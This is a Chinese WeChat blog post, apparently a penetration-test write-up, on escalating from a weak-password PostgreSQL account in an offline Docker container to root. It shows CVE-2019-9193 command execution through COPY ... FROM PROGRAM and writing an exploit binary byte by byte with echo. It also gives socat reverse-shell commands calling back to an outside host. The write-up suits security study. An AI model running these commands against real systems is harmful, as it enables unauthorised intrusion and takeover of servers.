 #  第22篇：一次艰难的PostgreSQL不出网提权过程

原创 abc123info [ 网络安全abc123 ](javascript:void\(0\);)

**网络安全abc123** ![]()

微信号 abc123network

功能介绍 ABC_123，2008年入行网络安全，某攻防实验室创始人，Struts2工具及Weblogic
T3/IIOP反序列化工具原创作者。擅长红队攻防、0day挖掘、代码审计、网络安全培训、应急响应、日志分析等。专注于前沿网络安全技术。

____

___发表于_

收录于合集

#攻防比赛 16 个

#红队 13 个

#内网渗透 3 个

#提权 1 个

#PostgreSQL 1 个

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923140028.png)**
Part1 前言
**在日常的内网横向过程中，对于SMB、Mysql、SSH、Sqlserver、Oracle等服务的弱口令爆破是常用手段，重复的红队攻防比赛使得这些服务的弱口令越来越少了。所以在平时，
**ABC_123也会关注一些其它服务的弱口令提权方法** ，有时候会在内网横向中收到奇效。本期就分享一个在内网渗透中，遇到的
**PostgreSQL数据库提权案例**
，过程非常艰辛，但是收获不少。首先简单介绍一下当时的渗透测试工作进展情况：前期通过外围打点进入了一个大B段的内网，内网非常庞大，但是资产极其稀少，在客户授权的情况下，一通B段探测，仅仅发现了一个Postgres弱口令，而且
**这个PostgreSQL是在docker容器中的，是非root权限起的服务**
，也就说内网只有这一个突破口。通过查看目录，发现一些目录有很多开发留下来的配置文件，但是需要root权限才能读取到。所以，接下来的要做的事情非常明确，就是提权到Linux服务器最高权限。
**此文章抛砖引玉，如果 大家有更好的方法，欢迎微信后台给我发消息讨论。**  
 **  Part2 技术研究过程 **

  *  **对于PostgreSQL信息探测**

首先按照惯例，肯定是需要对PostgreSQL数据库进行一系列信息收集的，常用的命令有以下这些：\-- 版本信息select version();show
server_version;  
select pg_read_file('PG_VERSION', 0, 200);  
\-- 数字版本信息包括小版号SHOW server_version_num;SELECT
current_setting('server_version_num');  
\-- 获取安装目录（通过路径可以判断系统是linux还是windows的）select setting from pg_settings where
name = 'data_directory';  
\-- 获取配置文件路径selectsetting from pg_settings where name='config_file'  
\-- 获取Postgres内网ip地址select
inet_server_addr()![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923140029.png)  

  *  **PostgreSQL提权漏洞尝试**

通过各种搜索，发现PostgreSQL曾经爆出过三个有价值的提权漏洞：其中一个漏洞是 **CVE-2018-1058**
，漏洞描述是“PostgreSQL的9.3到10版本中存在一个逻辑错误，导致超级用户在不知情的情况下触发普通用户创建的恶意代码，导致执行一些不可预期的操作”。在网上看了几篇漏洞复现文章之后，感觉这个漏洞不太好利用，
**提权成功需要等待“超级用户触发”**
，而且这个漏洞是“把一个普通的数据库用户权限提升到数据库管理员权限”，而我们需要的是一个Linux服务器权限，所以这个CVE漏洞不适用于本次测试工作。另一个方法是PostgreSQL的
**UDF提权** 执行命令方法，但是本次环境用不成功，而且用起来挺麻烦的。

还找到一个漏洞是 **CVE-2019-9193**
，这个漏洞看起来非常好，可以直接执行系统命令，还可以看到回显结果。使用起来也比较简单。如下图所示，这个postgres数据库没有root权限。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923140030.png)  
  

  * ##  **Linux提权操作却无gcc**

通过postgreSQL提权漏洞，我们可以执行linux系统命令了，接下来需要提权到服务器的root权限。我想到的方法是上传一个提权exp，通过linux系统漏洞提权到root权限。可是操作起来没那么简单，
**因为这个docker容器没装gcc**
。这种情况也有解决办法，准备一个相似的docker环境，编译好一个exp，将此二进制文件传到服务器上即可运行成功。![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923140031.png)  

  * ##  **echo命令写二进制文件**

编译后的提权文件做好了，但是此postgres的docker环境太精简了，很多程序都没有：wget命令不存在、curl不存在、python不存在，而且服务器还不出网，所以通过下载文件方式去写入提权文件，看来不太好弄。
**那么只能直接写二进制文件了** ，可是问题又来了，| base64 -d 命令不存在、|xxd -r -ps
命令也不存在，怎么写二进制文件呢？看来只剩下echo命令可用了，经过一系列测试，发现echo是可以直接写入二进制文件的， **命令如下echo -e -n
"\x23" >>
exploit3.bin。比较麻烦的是，需要把二进制文件转成16进制格式的，如下图所示**：![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923140032.png)  
接下来就是与postgres的提权语句结合起来使用了，原有的echo命令是这样的：echo -e -n
"\x23\x23\x23\x23\x23\x23\x23\x23\x23\x23\x23\x23\x23" >>
test3.bin但是放在postgres必须用以下这样方式才行，试了好多次，只有这样才能写成功！注意，
**echo左边的是两个单引号，不是双引号，exploit3.bin右边是3个单引号** 。COPY cmd_exec FROM PROGRAM
'/bin/bash -c ''echo -e -n "\x33" >>
exploit3.bin''';最终通过postgres提权漏洞写入提权exp文件的具体语句如下：![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923140034.png)  
最终exploit3.bin文件写入成功了，执行chmod 777 exploit3.bin之后，运行此文件，发现没反应，这时候我才反应过来。。。
**这个提权exp需要交互环境**
！！！接下来我需要传一个nc啥的反弹shell获取交互环境吗？可是nc也不一定能获取纯交互环境呀。我想到了一个好久没用的工具socat，解决了这个问题。  

  * ##  **socat获取交互型shell**

socat这款工具，可以说是nc的升级版本，可以轻松获取到一个纯交互环境，github上有很多绿色免安装版本。执行如下命令后，将会获取到一个完全交互式的TTY会话：Vps上监听端口socat
file:`tty`,raw,echo=0 tcp-listen:8888  
内网服务器上运行socat exec:'bash -li',pty,stderr,setsid,sigint,sane
tcp:10.0.3.4:888888服务器不通外网怎么办呢，正好我们webshell有一台服务器，就反弹到webshell这个服务器上吧。（下图来源于网络）![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923140035.png)  

  * ##  **分割二进制大文件写入成功**

把这个socat单文件转成16进制格式的，通过postgres提权命令执行写入。结果通过ls
-lah命令发现文件并没有写进去，原因在哪里呢？后来发现，COPY cmd_exec FROM PROGRAM **这个语句对二进制文件大小有限制的**
，文件太大写不进去。接下来怎么办？继续干！于是把二进制文件分割开，挨个执行echo -e -n命令叠加写入二进制文件，经过一系列测试发现，
**一个367k大小的socat文件，需要分割成近15份才能写入成功**
。也是我用java写了一个小程序，将socat文件分割成15份，并且自动生成postgres提权命令。
**关注公众号，后台回复“333”，即可获取二进制文件转16进制的java代码文件。**![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923140037.png)  
 **  Part3 总结 ** **1.
**echo命令写二进制文件可以关注一下，遇到大文件，可以把大文件分割成好几份，逐个echo写入，最后叠加成最终的二进制文件。 **2.
**内网横向中不只要关注mssql、redis、oracle的提权，其它的不常用的服务的提权方法，平时也需要多收集。 **3.
**socat这款工具可以获取一个纯交互环境，而且在docker精简环境下仍能正常使用。![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923140038.png)专注于网络安全技术分享，包括红队、蓝队、日常渗透测试、安全体系建设等每周一篇，99%原创，敬请关注![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923140039.png)
**往期精彩回顾**
****[第21篇：判断Weblogic详细版本号的方法总结](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484386&idx=1&sn=9104bd3fad09c607c0ce4b02e483957d&chksm=c25fcc99f528458f8f29d93f9fb7c961255bb64351061e0d6b0eb0c3fc08f2b660e53d45459d&scene=21#wechat_redirect)  
[第20篇：改造冰蝎客户端适配JNDIExploit的内存马](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484370&idx=1&sn=41144e2b24cf223753b1f631b7a7269b&chksm=c25fcca9f52845bfec4aceb55bbc2e35b95605873193a0a499b9505957039619598ae458b045&scene=21#wechat_redirect)
**[](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484370&idx=1&sn=41144e2b24cf223753b1f631b7a7269b&chksm=c25fcca9f52845bfec4aceb55bbc2e35b95605873193a0a499b9505957039619598ae458b045&scene=21#wechat_redirect)  
**[第19篇：关于近期cs服务端被反打的原因分析](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484349&idx=1&sn=c23223a0348336daae18acc4a4790bb8&chksm=c25fccc6f52845d03b30faae72d252256434197d1267d713e60b85810f734368f0be61e62a06&scene=21#wechat_redirect)[第18篇：fastjson反序列化漏洞区分版本号的方法总结](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484332&idx=1&sn=c787dd0985156d856aad03d56a945be4&chksm=c25fccd7f52845c1e172b864dfc219dcecc9f226fb5abc64ef31178914ad9f58b7868bf6917a&scene=21#wechat_redirect)[第17篇：Shiro反序列化在Weblogic下无利用链的拿权限方法](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484319&idx=1&sn=9da36674830837aa9bcacb3fb6268fd1&chksm=c25fcce4f52845f2ac3cebaf17fd3839fdba74f536ad3da20d1b1126d8ba0e1835853990516c&scene=21#wechat_redirect)[第16篇：Weblogic
2019-2729反序列化漏洞绕防护拿权限的实战过程](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484303&idx=1&sn=58cbb4d7f63b9276bb89eeac286d174c&chksm=c25fccf4f52845e241256c2f425003b73b6061b3d1964dcd4a184a2cda1b4d8761098227e6de&scene=21#wechat_redirect)[第15篇：内网横向中windows各端口远程登录哈希传递的方法总结](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484255&idx=1&sn=e233aa07fdf9de0c8a1bf56fb0954766&chksm=c25fcc24f5284532c5aa27c002d15aa6380c456e2a84299c77b8d43a41892517087258bf867d&scene=21#wechat_redirect)[第14篇：Struts2框架下Log4j2漏洞检测方法分析与总结](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484207&idx=1&sn=285b54a79e48db9a05816cab2e6afc27&chksm=c25fcc54f5284542c1b9abe870e0caa9f958f4da90723bd83292deed215c63c705b7b0bbfaff&scene=21#wechat_redirect)  
[第13篇：coldfusion反序列化过waf改exp拿靶标的艰难过程](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484191&idx=1&sn=cce12f62b3cf457bc73753b77a083695&chksm=c25fcc64f528457250b11ef6804ee6138c37ed87ab988874cc84d09d04fa6ac1fd36b5e8aa4a&scene=21#wechat_redirect)  
[第12篇：给任意java程序挂Socks5代理方法](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484173&idx=1&sn=e2d454d2447d119bf771a0a511fba994&chksm=c25fcc76f5284560d00355590da0147aca7b7ae2275c095424034245ef32b3d0b28e49c2dbc9&scene=21#wechat_redirect)  
[第11篇：盲猜包体对上传漏洞的艰难利用过程](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484162&idx=1&sn=870596fcd1120a6d3ee9688c38aace00&chksm=c25fcc79f528456f9dc0a3b9d9cf54422696a1cd6ffd737ae2c6e33941a25c33d4f6d32fc663&scene=21#wechat_redirect)  
[第10篇：IIS短文件名猜解在拿权限中的巧用](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484145&idx=1&sn=7635430b9b759a2cacdd2c57ba330833&chksm=c25fcd8af528449c1f5c6c703e3668cf6a8dae875ee82ffa67caed66722a0751e3d80d8a6bee&scene=21#wechat_redirect)  
[第9篇：Shiro反序列化数据包解密及蓝队分析工具，提供下载](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484123&idx=1&sn=cb9c039ef92311e56e7742c7c38f6e8a&chksm=c25fcda0f52844b6088b39b769a63b2f6e7a29e8b3ab710961918218d7569089ee4e00072ad9&scene=21#wechat_redirect)  
[第8篇：Oracle注入漏洞绕waf的新语句](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484115&idx=1&sn=10c73343ec23f522696692293cd38852&chksm=c25fcda8f52844be2165aa6151c7ad018a4add748673d56523631529e903277633dc44d0abba&scene=21#wechat_redirect)  
[第7篇：MS12-020蓝屏漏洞在实战中的巧用](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484105&idx=1&sn=3aeafa9c172588aaaade47ccacb69370&chksm=c25fcdb2f52844a4a783fceec590c9e12eb06f62dabd7fbffb37e8da23053953a7eae296048d&scene=21#wechat_redirect)  
[第6篇：Weblogic反序列化攻击不依赖日志溯源攻击时间](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484094&idx=1&sn=527236759dc4fd228461195197492507&chksm=c25fcdc5f52844d36bffb96979116d6d3a9ae4fb1a0f320436c7275aea271588c702cea60e5c&scene=21#wechat_redirect)  
[第5篇：Shiro Padding
Oracle无key的艰难实战利用过程](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484091&idx=1&sn=4dcce59a842f17035d0018bf650671ae&chksm=c25fcdc0f52844d608b6b87d85082b74d5e15888e76001127ff40cc407a46e5e5de446b1365e&scene=21#wechat_redirect)  
[第4篇：jsp型webshell被删情况下如何溯源攻击时间](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484004&idx=1&sn=50013b50e48542d156700d76ccbd2f33&chksm=c25fcd1ff528440906bb9089a807c16b747ab5a72cc0279a3c0d18a265cd76cc796df570d594&scene=21#wechat_redirect)  
[第3篇：银行Java站SSRF"组合洞"打法造成的严重危害](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247483984&idx=1&sn=1a018fcefe10124c1726e51a2be05ca7&chksm=c25fcd2bf528443d944a8495ca5c72d8c028fef67de217efe47a8d18b077ae24556842687407&scene=21#wechat_redirect)  
[第2篇：区分Spring与Struts2框架的几种新方法](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247483951&idx=1&sn=fbc1d04ef73a449238a5979a439b1f35&chksm=c25fcd54f528444219f20c2ab14c5970c243fbb10ba04b5bccc0fb0b7cc6d3f542e26f7870bf&scene=21#wechat_redirect)  
[第1篇：weblogic9.x在JDK1.5下T3反序列化漏洞利用方法](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247483867&idx=1&sn=e0fcaa9f1b58c8085ccd9dc6f74ed336&chksm=c25fcea0f52847b6aeec0409e3290e023b890d603361f103315b39637f89a10dd6fe051dc724&scene=21#wechat_redirect)

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

